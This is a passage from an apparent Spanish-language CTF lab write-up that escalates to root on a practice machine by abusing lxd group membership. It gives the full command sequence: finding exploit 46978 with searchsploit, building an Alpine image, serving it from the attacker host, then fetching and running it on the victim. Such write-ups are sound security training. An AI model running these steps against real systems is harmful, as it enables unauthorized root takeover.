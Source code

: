 Ya tenemos una contraseña.

Intentamos ponerle la contraseña al usuario xalvas y entramos

```bash
su xalvas
Password: <la contraseña>
whoami
#Output 
xalvas
```## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
whoami
id
```

En este punto vemos que el usuario xalvas esta en el grupo **lxd** y ya tenemos la posibilidad de escalar privilegios con esto.

```bash
searchsploit lxd
searchsploit -x 46978
```

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

```bash
uname -a
```

Seguimos los pasos del exploit

1. En la maquina de atacante

    ```bash
    wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
    chmod +x build-alpine
    ./build-alpine # --> para maquinas x64
    ./build-alpine -a i686 # --> para maquinas i686
    searchsploit -m 46978
    mv 46978.sh lxd_privesc.sh
    dos2unix lxd_privesc.sh
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    wget http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz
    wget http://10.10.14.20/lxd_privesc.sh
    chmod +x lxd_privesc.sh
    ./lxd_privesc.sh -f alpine-v3-14-i686-20210728_2134.tar.gz
    ```
